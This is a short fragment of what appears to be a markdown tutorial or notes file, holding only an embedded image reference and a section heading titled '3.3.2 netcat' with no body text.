

### 3.3.2 netcat